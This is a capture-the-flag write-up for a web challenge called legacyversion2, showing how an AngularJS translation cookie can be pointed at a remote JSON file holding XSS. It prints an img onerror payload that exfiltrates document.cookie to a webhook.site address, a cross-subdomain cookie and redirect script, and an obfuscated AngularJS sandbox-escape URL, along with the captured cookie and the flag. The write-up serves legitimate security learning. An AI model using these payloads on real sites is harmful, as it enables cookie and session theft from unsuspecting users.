 # legacyversion2
> Want some more legacy after solving legacy1?

## About the Challenge
We got 2 websites, first the admin bot. So we need to input our URL that contains XSS payload in order to obtain the flag in cookie's admin. But we need to use a website from `legacy` chall. So the idea here, we need to redirect the admin to the `legacyversion2` and exploit XSS there.


[Image extracted text: Visit this_
link
to play.
Note
After
the
fiasco
with
legacy,
moved
admin
cookies
legacyversion2-l.ctf
hackaplaneten.se
course
admin
Will
still only
click
links
to legacy-l.ctf hackaplaneten.se
Unhackable
Admin
contact
form!
Submit
url
with
here
(max
requests
Per
minutes)
and
admin Will
take
look:
http Illegacy-
ctf hackaplaneten se 8000/ .
Submit]


And another website that using AngularJS. This website has a functionality to change the language from english to deutsch if we press website `German` or `English` button


[Image extracted text: k 
C
Not secure
legacyversion2-1_
ctfhackaplaneten se.8001/demo/
What an awesome
module'
Srsly!
there! Im passed as text valuel
Im
attribute value
cool ha?
Beginners! Im interpolated!
Beginners! Im interpolated!
Hi PascalPrecht
German
English
Hey
passed]


## How to Solve?
If we check the source code by pressing `Ctrl + U` there is a custom JS code called `script.js`. Here is the content of the JS file

```javascript
document.cookie="dummy=legacy1";
var app = angular.module('myApp', ['ngCookies', 'pascalprecht.translate']);

app.config(['$translateProvider', function ($translateProvider) {
  $translateProvider.translations('en');
  // configures staticFilesLoader
  $translateProvider.useStaticFilesLoader({
    prefix: '',
    suffix: '.json'
  });
  // load 'en' table on startup
  $translateProvider.preferredLanguage('en');
  $translateProvider.useCookieStorage();
  
}]);
  
app.controller('Ctrl', ['$translate', '$scope', function ($translate, $scope) {
  
  $scope.changeLanguage = function (langKey) {
    $translate.use(langKey);
  };
}]);
```

This code sets up an AngularJS application with translation capabilities, allowing the user to switch between languages and store their language preference in a cookie. Now if we check the cookie on this website, you will see there are 2 cookies called `dummy` and `NG_TRANSLATE_LANG_KEY`


[Image extracted text: Cookie Editor
Show Advanced
Search
dummy
NG_TRANSLATE_LANG_KEY
Name
NG_TRANSLATE_LANG_KEY
Value
Show Advanced]


And then when I check the HTTP request when changing the language from english to germany, there is a request like this

```
GET /demo/de.json HTTP/1.1
Host: legacyversion2-1.ctf.hackaplaneten.se:8001
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
```

After changing the cookie from en to de, I attempted to manually modify the cookie value to something random, such as dapppp. And here is the website looks like.


[Image extracted text: HEADLINE
PARAGRAPH
PASSED AS TEXT
PASSED_AS_ATTRIBUTE
PASSED AS INTERPOLATION
PASSED_AS_INTERPOLATION
VARIABLE REPLACEMENT
BUTTON_LANG_DE
BUTTON_LANG_EN]


Looks broken right? And if we check the network tab on my browser, another request was sent with the following format:

```
GET /demo/dapppp.json HTTP/1.1
Host: legacyversion2-1.ctf.hackaplaneten.se:8001
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
```

Soooo, what if we input my website that have a JSON file that contains the payload?

```json
{
    "HEADLINE": "What an awesome module!",
    "PARAGRAPH": "Srsly!",
    "PASSED_AS_TEXT": "Hey there! I'm passed as text value!",
    "PASSED_AS_ATTRIBUTE": "I'm passed as attribute value, cool ha?",
    "PASSED_AS_INTERPOLATION": "Beginners! I'm interpolated!",
    "VARIABLE_REPLACEMENT": "Hi <img src=x onerror=\"var i=new Image(); i.src='https://webhook.site/47c2cdc9-1233-4ac8-8e8b-55efe06aeb2c/?cookie='+btoa(document.cookie);\">",
    "BUTTON_LANG_DE": "German",
    "BUTTON_LANG_EN": "English"
}
```

I put this payload on Github Gist and then I changed the `NG_TRANSLATE_LANG_KEY` cookie value to `https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2Fd8cbd68a5b429f7423040b10d135dd16%2Fraw%2F876f863f560a6f75038eccf7ad242fefc5cad1dd%2Fa`

And luckily my payload was working


[Image extracted text: Elements
Console
Sources
What an awesome modulel
Preserve log
Disal
Srslyl
Filter
Invert
Hide
Has blccked ccokies
Blccked Requests
there! Im passed as text valuel
Use large request rows
Im passed as attribute value, cool ha?
Show overview
Name
Status
Beginners! Im interpolated!
angularjs
200
Beginners! Im interpolated!
angular-animatejs
200
angular-cookies js
200
Hi
angular-sanitize;js
200
angular-translatejs
200
German
English
angular-translate-interpolation-mess
200
angular-translate-storage-cookiejs
200
angular-translate-storage-localjs
200
angular-translate-loader-urljs
200
angular-translate-loader-static-filesjs
200
angular-translate-nandler-logjs
200
scriptjs
200
a,json
200
200
favicon icc
200
?cockie=ZHVtbXk9bGVnYWNSMTsg -
200
18 requests
609 B transferred
1,6 MB resource
Console
What's New
Issues
Netwc
Hey]


Now we need to redirect the admin from `legacy` to `legacyversion2` website and we need to set the cookie to Gist Github link. But the problem is, how we can set the `document.cookie` between another subdomain?

The answer is "It's still possible". I was told by @dimasmaulana that we can share cookie between subdomain and he gave me this [reference](https://stackoverflow.com/questions/18492576/share-cookies-between-subdomain-and-domain) to read.

Here is the payload I used to solve this chall
```
document.cookie="NG_TRANSLATE_LANG_KEY=https%3A%2F%2Fgist.githubusercontent.com%2Fdaffainfo%2Fd8cbd68a5b429f7423040b10d135dd16%2Fraw%2F876f863f560a6f75038eccf7ad242fefc5cad1dd%2Fa;domain=ctf.hackaplaneten.se";window.location.replace("http://legacyversion2-1.ctf.hackaplaneten.se:8001/");window.location.replace("http://legacyversion2-1.ctf.hackaplaneten.se:8001/demo/");
```

So we set the cookie first on `legacy1` and dont forget to add `;domain=ctf.hackaplaneten.se` because we need to set the cookie to another subdomain. And then redirect admin to `legacyversion2` webiste. And here is the final payload I used to solve this chall

```
http://legacy-1.ctf.hackaplaneten.se:8001/awikwok#!{{$on.constructor('eval(String.fromCharCode(100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,61,34,78,71,95,84,82,65,78,83,76,65,84,69,95,76,65,78,71,95,75,69,89,61,104,116,116,112,115,37,51,65,37,50,70,37,50,70,103,105,115,116,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,37,50,70,100,97,102,102,97,105,110,102,111,37,50,70,100,56,99,98,100,54,56,97,53,98,52,50,57,102,55,52,50,51,48,52,48,98,49,48,100,49,51,53,100,100,49,54,37,50,70,114,97,119,37,50,70,56,55,54,102,56,54,51,102,53,54,48,97,54,102,55,53,48,51,56,101,99,99,102,55,97,100,50,52,50,102,101,102,99,53,99,97,100,49,100,100,37,50,70,97,59,100,111,109,97,105,110,61,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,34,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,34,104,116,116,112,58,47,47,108,101,103,97,99,121,118,101,114,115,105,111,110,50,45,49,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,58,56,48,48,49,47,34,41,59,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,114,101,112,108,97,99,101,40,34,104,116,116,112,58,47,47,108,101,103,97,99,121,118,101,114,115,105,111,110,50,45,49,46,99,116,102,46,104,97,99,107,97,112,108,97,110,101,116,101,110,46,115,101,58,56,48,48,49,47,100,101,109,111,47,34,41,59))')()}}
```

Send the URL to admin bot, and check the webhook


[Image extracted text: Request Details
Permalink
Raw content
Export as -
Headers
GET
https Ilwebhook site/47c2cdc9-1233-4ac8-8e8b-55efeO6aeb2c?cookie-ZHVtbXkgbGVn
connection
close
YWNSMTsgTkdfVFJBTINMQVRFXOxBTkdfSOVZPWhOdHBzJTNBJTJGJTJGZZIzdCSnaX
accept-encoding
gzip,
deflate,
RodWJ1c2VyY29udGVudCSjbZOIMkZkYWZmYWluZm8IMkZkOGNIZDY4YTVNDISZjcOM
jMwNDBiMTBkMTMIZGQxNiUyRnJhdyUyRig3NmY4NjNmNTYwYTZmNzUwMzhlYZNm
referer
http:/ /legacyversion2-1.ctf.hackaplaneten.se:8001/
NZFkMjQyZmVmYzVjYWQxZGQIMkZhOyBGTEFHPVNFQOZFUIRTTDNnQGNSX3JIbT
sec-fetch-dest
image
NtYjByel8wcI9tQHIMIIuMHR9OYBOR1IUUkFOUOxBVEVTTEFOR19LRVk9aHROcHMIM
sec-fetch-mode
cors
OEIMkYIMkZnaXNOLmdpdGh 1YnVzZXJjb25OZWSOLmNvbSUyRmRhZmZhaWSmbyUyR
mQ4Y2JkNjhhNWIOMjImNzQyMzAOMGIxMGQxMzVkZDEZJTJGcmF3JTJGODc2Zjg2M2
sec-fetch-site
cross-site
YINjBhNmY3NTAZOGVjYZY3YWQyNDJmZWZjNWNhZDFkZCUyRmE=
accept
image/avif,image/webp, image/apng, image/ SVg+xml, image/*,*/*;9-0.8
Host
164.90.183.13 whois
sec-cn-ua-F
platform
Linux"
Date
05/26/2023 5.37.37 AM (12 hours ago)
user-agent
Mozilla/5
(X1l;
Linux x86_64)
Applellebkit/537.36 (KHTML,
like Geck:
Size
bytes
sec-ch-ua-mobile
11664acf-977b-4799-abb0-c593e2e04ef3
sec-ch-ua
HeaclessChrome
;V="113"
"Chromium"
;V="113'
'Not-A.Brand";V="24"
host
webhook.site
Files
content-length
content-type
Query strings
Form values
cookie
ZHVtbxk9bGVnYINSMTsgTkdfVFJBTINMQVRFXOxBTkdfSevZPNhedHBz JTNBJTJGJTJGZZ
empty)]


```
SECFEST{L3g@cy_rem3mb0rz_0r_m@yb3_n0t}
```